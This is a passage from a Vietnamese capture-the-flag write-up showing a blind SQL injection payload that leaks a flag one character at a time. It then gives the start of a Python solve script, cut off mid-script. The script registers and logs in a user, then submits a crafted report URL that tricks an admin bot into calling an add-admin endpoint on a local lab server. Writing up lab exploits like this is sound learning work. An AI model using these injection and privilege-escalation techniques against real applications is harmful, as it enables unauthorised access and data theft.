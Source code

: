 Và ta đã SQL injection thành công. Để leak flag thì mình có thể blind SQLI như sau `msg" like $1 or (select substring(flag,1,1)='S' from flags) --`

![image](https://hackmd.io/_uploads/BknUNrb6gg.png)

Nếu ký tự khác thì sao ?

![image](https://hackmd.io/_uploads/BkuKEHWaxl.png)

Ye quá ngon. Cứ tiếp tục thì ta sẽ tim được full flag

Full solve script:

```python
import requests
import secrets
import re
import json
import time
import string

URL = "http://127.0.0.1:3000/"

session = requests.Session()

rand_id = secrets.token_hex(10)
username = 'winky' + rand_id
password = rand_id
user_id = ""

csrf_token = ""
def get_csrf_token():
    r = session.get(URL)
    m = re.findall(r'name="_csrf"\s+value="([^"]+)"', r.text)
    global csrf_token
    csrf_token = m[0]

def register():
    user = {
        '_csrf': csrf_token,
        'username': username,
        'password': password
    }
    r = session.post(URL + 'auth/register', data=user)
    
def login():
    user = {
        '_csrf': csrf_token,
        'username': username,
        'password': password
    }
    r = session.post(URL + 'auth/login', data=user)
    global user_id
    user_id = str(json.loads(r.text)['id'])
    
def report():
    data = {
        "_csrf": csrf_token,
        "url": f"http://localhost:3000/user/profile/?id={user_id}/../../admin/addAdmin"
    }
    r = session.post(URL + 'report', data=data)
    time.sleep(1)

def add_msg():
    data = {
```